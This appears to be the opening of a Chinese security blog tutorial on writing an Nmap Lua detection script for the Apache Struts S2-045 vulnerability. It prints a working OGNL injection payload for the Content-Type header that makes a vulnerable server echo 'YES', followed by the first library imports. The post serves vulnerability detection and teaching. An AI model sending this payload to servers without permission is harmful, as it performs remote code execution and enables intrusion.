 ```yaml
---
date: "2017-06-02T00:00:00Z"
description: 本文介绍一下Nmap的扩展插件编写
title: Struts S2-045 Nmap扫描脚本
url: /archivers/nmap-write-script
---
```


## 0x00 Nmap脚本简介

夜无眠，看了一下Nmap官方的英文API文档(全是English)，瞬间心态崩塌，不想吐槽它们的nmap官网前端太丑了=。=，但是都是大牛啊，挺敬佩开源开发者的。

Nmap最灵活的就是它的`scripts`了，在渗透测试中我们经常会用它来扫描服务、漏洞，而且很多脚本也可以用于漏洞利用，总之就是很强大啦～ 具体的介绍在这里：[Nmap脚本使用指南](https://zhuanlan.zhihu.com/p/26618074)

看过《Nmap渗透指南》一书，发现书中对于Nmap脚本的编写是轻描淡写，所以本文就利用一个漏洞实例给大家详细说说这个脚本如何开发的。
`PS：并没有说这本书不好，其实很好很好的。`

## 0x01 实战编写前的思路

今天我用`Struts S2-045`这个漏洞来编写一个漏洞检测脚本。

PS：此文需要一点`Lua`语言基础。我也就看了个半调子 ，才写的这个文章，Lua大牛误喷。

思路： 它主要是给服务器端发送一个http请求，这个请求里的`Content-type`中就是我们的利用代码了。在这里可以称之为`Payload`。

相关链接：[Struts 2 S2-045 Jakarta插件远程代码执行漏洞加固方法](https://zhuanlan.zhihu.com/p/25639832)

我们先把`Payload`拿出来：

```
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('YES')).(#o.close())}
```

可以看到有一个YES，当服务器端相应YES的时候，我们就判定这个服务器存在此漏洞。

根据官方的文档，我们先载入指定的扩展库：

```lua
--
-- Created by IntelliJ IDEA.
-- User: liyingzhe
-- Date: 17-6-3
-- Time: 上午2:07
-- To change this template use File | Settings | File Templates.
--
local http = require "http"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local vulns = require "vulns"
```
这些基本用于发送HTTP请求、字符串操作、漏洞结果生成、错误调试
